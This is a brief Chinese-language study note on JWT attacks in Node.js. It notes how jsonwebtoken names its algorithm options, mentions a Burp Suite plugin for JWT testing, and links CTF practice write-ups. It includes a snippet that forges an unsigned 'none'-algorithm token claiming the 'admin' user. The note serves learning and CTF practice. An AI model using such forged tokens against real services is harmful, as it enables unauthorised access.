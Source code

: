 nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require('jsonwebtoken');

var payload = {
    secretid: [],
    username: 'admin',
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```


# Article
[浅析JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
